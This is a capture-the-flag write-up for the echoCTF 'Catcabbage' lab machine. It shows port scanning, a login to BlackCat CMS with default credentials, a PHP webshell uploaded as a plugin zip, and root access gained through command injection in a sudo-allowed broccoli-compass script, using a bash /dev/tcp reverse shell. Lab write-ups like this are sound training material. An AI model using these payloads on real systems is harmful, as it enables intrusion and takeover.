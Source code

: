 ```yaml
---
description: >-
  Catcabbage echoCTF Machine
title: Catcabbage (Intermediate)                # Add title here
date: 2025-02-19 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: [Default Credentials, RCE, BlackCat CMS, broccoli-compass]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Catcabbage.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.219    catcabbage.echocity-f.com
```

### Content

-  Default Credentials
-  Blackcat CMS v1.4 - Remote Code Execution (RCE) 
-  RCE in broccoli-compass

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.219
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.219 ()   Status: Up
Host: 10.0.160.219 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.219
Nmap scan report for 10.0.160.219
Host is up, received user-set (0.17s latency).
Scanned at 2025-02-20 00:03:42 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 ea:cf:8b:53:37:68:9b:9c:f9:a9:c8:e0:f5:cd:bf:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNkNFS/WNRsP6swoQVM88OHkWuu/itOfvhNRQdspAqMhCpN0qTnLkRmWjmAEmcfM7f8pjkAYuEHzvcMMkx4vvLM=
|   256 e4:2e:76:72:24:c4:0b:a2:3b:79:bb:8a:65:30:b2:a3 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOQbbEM7sFZ+8wW3CKzvSG717VFtghPe4egPndkGq4j6
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-robots.txt: 10 disallowed entries 
| /account/ /backend/ /config.php /framework/ /include/ 
|_/modules/ /temp/ /kit2/config /kit2/framework /kit2/logfile
|_http-title: BlackCat CMS - Maintenance
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation
There is only HTTP port open which has a web page only:

![](/assets/img/Pasted-image-20250219230503.png)

However, every resource redirects to `http://catcabbage.echocity-f.com/` which means we need to add an entry to our `/etc/hosts` file:
```bash
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.234    superclass.echocity-f.com

```

Looking for exploits on this CMS, we identified the following [Blackcat CMS RCE](https://www.exploit-db.com/exploits/51605)

Now, the important thing here is that the exploit requires authentication, so we tried with the most common pair of credentials, and voila, the following credentials did work `admin:admin123`.

The exploit marks the following steps:
1. Login to account as admin
2. Go to admin-tools => jquery plugin (http://localhost/BlackCatCMS-1.4/upload/backend/admintools/tool.php?tool=jquery_plugin_mgr)
3. Upload zip file but this zip file must contains poc.php 
4. Go to http://localhost/BlackCatCMS-1.4/upload/modules/lib_jquery/plugins/poc/poc.php?code=cat%20/etc/passwd

So first we need to access the admin-tools and jQuery Plugin Manager feature:
![](/assets/img/Pasted-image-20250219230715.png)

Second, we need to create a file with our webshell:
```bash
<?php system($_REQUEST["cmd"]); ?>
```
Then zip the file so it can be accepted by the application:
```bash
zip shell.zip shell.php
  adding: shell.php (stored 0%)
```
And finally, go to the route where the shell was unzipped `http://catcabbage.echocity-f.com/modules/lib_jquery/plugins/shell/shell.php`

![](/assets/img/Pasted-image-20250219231300.png)

If everything goes as planned you'll have a webshell.

### Privilege Escalation

I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
www-data@catcabbage:/var/www/html/modules/lib_jquery/plugins/shell$ sudo -l
Matching Defaults entries for www-data on catcabbage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on catcabbage:
    (ALL : ALL) NOPASSWD: /usr/local/bin/cabbage
```
This is the content of it:
```bash
www-data@catcabbage:/var/www/html/modules/lib_jquery/plugins/shell$ cat /usr/local/bin/cabbage
#! /usr/bin/env node
var args = process.argv.slice(2);
var compileSass = require('broccoli-compass');

if(args.length<1)
{
  console.error('Error, missing list of SASS files to process...');
  process.exit(1);
}
compileSass({}, {
    'files': args
```
As usual, the vulnerability relays on the imported library, in this case `broccoli-compass`, there is a vulnerability reported as [Remote code execution in broccoli-compass](https://security.snyk.io/vuln/SNYK-JS-BROCCOLICOMPASS-5458974), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
www-data@catcabbage:/tmp$ sudo /usr/local/bin/cabbage '/tmp/file.scss; bash -c "bash -i >& /dev/tcp/10.10.5.122/1234 0>&1"'
```
And we ARE INSIDEEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- Credentials identified for BlackCMS `admin:admin123`

### Notes

-  Nothing fancy here, super classic exploits.

### References

- [Blackcat CMS RCE](https://www.exploit-db.com/exploits/51605)
- [Remote code execution in broccoli-compass](https://security.snyk.io/vuln/SNYK-JS-BROCCOLICOMPASS-5458974)




